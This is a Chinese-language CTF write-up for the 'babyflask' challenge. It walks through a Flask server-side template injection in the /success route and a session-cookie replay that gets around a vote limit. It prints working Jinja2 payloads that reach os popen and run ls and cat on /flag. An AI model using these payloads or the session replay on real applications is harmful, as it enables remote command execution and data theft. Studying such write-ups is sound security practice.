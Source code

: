 # babyflask
*http://123.60.19.253:10001*

---

分析给出的源文件,发现`/success`路由下的`name`存在SSTI漏洞.

继续分析,`name`取自`session['name']`,用户登录时会自动创新用户和删除前一个同名用户的登录信息,那其实我们用注入的代码的作为用户名直接登录即可.

```python
template =  '''
Congratulations, %s. You can get flag now!
''' % name
return render_template_string(template)
```

要想执行到上述代码,需要给flag投满8票(我们手里只有5票),注意到vote是存储在session中,`/vote`接口会校验`session`中保存的vote数量并减一,猜测这里可能存在session会话劫持.

我们第一次登录时复制一下当前的`session`,然后给flag投票,等手里的票用光之后,再把第一次登录时复制的`seesion`粘贴进浏览器保存的Cookie中,我们的票又回来了.

>🤠登录后疯狂点击“投票”,也能投满8票;可能因为Server响应太慢,浏览器中保存的session还没来得及被更新,导致多个请求发起时共用一个session(即vote数量相等),session中保存的vote最终只会减一.

<img src="images/0.jpg" alt="image-20211114190032492" style="zoom:50%;" />

使用如下代码作为用户名登录,查看一下当前已加载模块

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```
<img src="images/1.jpg" alt="image-20211114182131940" style="zoom:50%;" />

人肉计数/写个脚本,找到`os._wrap_close`模块所在的索引,借助于`popen`函数可以直接执行系统命令

```python
num = 0
for i in a.split(', '):
    if 'os._wrap_close' in i:
        print(num)
    num += 1
```

先`ls -a`一下,发现`config.py`

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -a').read()}}
```

![image-20211114183143814](images/2.png)
继续`cat`,没有在`config.py`中找到flag

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat config.py').read()}}
```

![image-20211114183703433](images/3.png)

用`ls -R /`找找,发现存在`/flag`文件

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -R /').read()}}
```

![image-20211114183857713](images/4.jpg)
直接`cat /flag`即可

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

![image-20211114184236370](images/5.png)

**flag:**`l3hsec{emmMmMM_mm~mMMmm~~T}`

